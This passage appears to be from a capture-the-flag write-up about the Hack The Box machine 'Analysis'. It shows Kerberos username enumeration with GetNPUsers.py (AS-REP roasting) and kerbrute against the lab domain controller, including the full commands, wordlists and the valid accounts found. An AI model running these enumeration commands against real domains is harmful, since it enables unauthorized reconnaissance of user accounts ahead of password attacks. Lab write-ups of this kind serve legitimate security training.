 ### USER
The employees login portal could be an entry point, but we need at least a list of valid usernames. Two options that come to mind to bruteforce usernames are asreproasting attack or a RID bruteforce. Since we do not have SMB credentials, we will opt for asreproasting.<br>
<br>
Two tools we can use to bruteforce usernames are `GetNPUsers.py` or `kerbrute`. In summary, both of send a TGT request with no pre-authentication and check the KDC reply. If the user exists, the KDC will prompt pre-authentication; if not, it will reply with an user not found message. Therefore, we can find out which usernames exist and which ones not.<br>
<br>
With `GetNPUsers.py`, launch an asproasting attack and grep the results.
```markdown
> python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py analysis.htb/ -usersfile /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt -dc-ip $target | grep UF_DONT_REQUIRE_PREAUTH | cut -d' ' -f 3
jdoe
ajohnson
cwilliams
wsmith
jangel
technician
```

![Untitled4](https://github.com/g1vi/AllTheWriteUps/assets/120142960/a25bf2bf-eec7-444f-a9de-c7be2be3f703)

It is able to dump the usernames but takes a lot of time. There is a faster tool for this purpose called `kerbrute` which essentially does the same: initiate a no-preauth TGT request and checks what the KDC replies.
```markdown
> ./kerbrute userenum --dc $target -d analysis.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/21/24 - Ronnie Flathers @ropnop

2024/01/21 11:07:33 >  Using KDC(s):
2024/01/21 11:07:33 >   10.10.11.250:88

2024/01/21 11:08:35 >  [+] VALID USERNAME:       jdoe@analysis.htb
2024/01/21 11:09:35 >  [+] VALID USERNAME:       ajohnson@analysis.htb
2024/01/21 11:11:24 >  [+] VALID USERNAME:       cwilliams@analysis.htb
2024/01/21 11:12:15 >  [+] VALID USERNAME:       wsmith@analysis.htb
2024/01/21 11:14:53 >  [+] VALID USERNAME:       jangel@analysis.htb
2024/01/21 11:25:16 >  [+] VALID USERNAME:       technician@analysis.htb
2024/01/21 11:38:12 >  [+] VALID USERNAME:       JDoe@analysis.htb
2024/01/21 11:38:53 >  [+] VALID USERNAME:       AJohnson@analysis.htb
^C
```
